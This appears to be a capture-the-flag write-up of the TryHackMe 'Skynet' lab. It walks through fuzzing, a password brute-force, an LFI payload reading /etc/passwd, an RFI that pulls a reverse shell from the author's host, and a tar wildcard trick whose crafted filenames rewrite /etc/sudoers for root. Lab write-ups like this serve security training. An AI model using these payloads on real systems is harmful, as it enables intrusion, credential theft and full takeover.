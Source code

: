 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-1.png)

Http service on port 80 reveals a page with a search which does nothing.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-2.png)

In that case, i decided to find some hidden directories using ffuf.
```text

./ffuf -u http://10.10.150.216/FUZZ -w /usr/share/wordlists/dirb/common.txt -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.150.216/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 523, Words: 26, Lines: 19]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
config                  [Status: 301, Size: 315, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 523, Words: 26, Lines: 19]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
squirrelmail            [Status: 301, Size: 321, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 384 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

The /squirrelmail has a login form.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-3.png)
I didn't knew any username or password, but i had plenty of services to enumerate. The smb share has a folder which can be read by anyone.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-4.png)

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-5.png)

The anonymous folder has a file which may be useful.

```text
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

In the /logs folder, the log1.txt contains a list of passwords.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-6.png)  
I captured a request using burp suite and used it's intruder to try every password from the list found.  
```text
POST /squirrelmail/src/redirect.php HTTP/1.1

Host: 10.10.150.216
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://10.10.150.216
Connection: close
Referer: http://10.10.150.216/squirrelmail/src/login.php
Cookie: squirrelmail_language=en_US
Upgrade-Insecure-Requests: 1


login_username=milesdyson&secretkey=§pass§
```
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-7.png)  
Once logged in, i found 3 emails.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-8.png)  
The first of them has a password which can be used to login to the smb share.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-9.png)  
In his share, i found a file called important.txt
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-10.png)
```text

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
The website at the specified location has this page. It wasn't that useful, but i managed to find some useful directories using ffuf.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-11.png)
```text
./ffuf -u http://10.10.150.216/45kra24zxs28v3yd/FUZZ -w /usr/share/wordlists/dirb/common.txt -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.150.216/45kra24zxs28v3yd/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 418, Words: 45, Lines: 16]
administrator           [Status: 301, Size: 339, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16]
:: Progress: [4615/4615] :: Job [1/1] :: 307 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```  
/administrator reveals cuppa CMS  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-12.png)

I tried the found credentials, but no luck. I looked for an exploit for this cms and i found it.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-13.png)

I copied the exploit to my folder and read it carefully. Turns out, this cms is vulnerable to LFI and RFI.
```text
cp /usr/share/exploitdb/exploits/php/webapps/25971.txt .
```
I requested the contents of /etc/passwd using the payload below, and i got them.
```text
http://10.10.150.216/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
Because, it is also vulnerable to RFI, i can upload a reverse shell.
```text
1. python3 -m http.server 4444
2. Go to http://10.10.150.216/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.5.181:4444
```
The second GET will appear as i acces the rev.php file  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-14.png)  

Also, the page will list all the files i have in the current directory.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-15.png)  
As i had a reverse shell, i looked into ways to advance in privileges.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Skynet/images/134-16.png)

In the crontab file i noticed the backup.sh script.

```text
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```

The code of this script is:
```text
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
Using the wildcard alonside tar i can became root. 

```text
www-data@skynet:/var/www/html$ echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
www-data@skynet:/var/www/html$ echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
www-data@skynet:/var/www/html$ echo "/var/www/html"  > --checkpoint=1

www-data@skynet:/var/www/html$ sudo -l
sudo -l
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
```
